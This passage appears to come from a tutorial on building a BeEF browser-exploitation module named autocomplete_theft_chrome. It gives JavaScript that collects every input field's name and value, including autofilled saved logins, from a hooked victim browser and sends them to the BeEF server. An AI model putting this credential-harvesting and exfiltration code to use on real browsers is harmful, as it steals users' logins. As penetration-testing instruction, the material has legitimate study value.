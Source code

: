 `content['results']` means to retrieve the data from parameter "results" in the HTTP response. So later when we send data from the browser in `command.js`, we need to use results as the parameter name.

## Javascript to execute on hooked browser: command.js

Open the file `modules/browser/autocomplete_theft_chrome/command.js` in your preferred text editor.

After that, we will now look at what we need to execute in the hooked browser to get what we want sent back to BeEF.

For a brief example, this piece of Javascript logs all input form name and values into the console:

```js
for (x of document.querySelectorAll("input")) { 
    console.log(x.name + ":" + x.value);
}
```

You can test this in the developer console of Chrome, on a website that you saved your login on. 
(Open the developer console using F11 / right click -> inspect element)

Now we just need to send the results back to BeEF.

the `beef.execute(function() {}` is the function that will run when a module is executed. 

### Sending data back to BeEF

this is how we send data back to beef

```js
beef.net.send("<%= @command_url %>", <%= @command_id %>, "data");
```

The data we want to send, in this case, is all the input name:value pairs. So, instead of using `console.log`, we append all the data into a big string.

```js
data = '';
for (x of document.querySelectorAll("input")) { 
    data += x.name + ":" + x.value + "|";
}
```

Then we send it back to beef like this:
```js
beef.net.send("<%= @command_url %>", <%= @command_id %>, "results="+data);
```

The data sent back is prepended with `results` because on the receiving end, `module.rb` stores the result using "results" as a key:

```rb
content['results'] = @datastore['results']
```

Thus the parameter name must match that in `command.js`.


The final command.js looks like this:
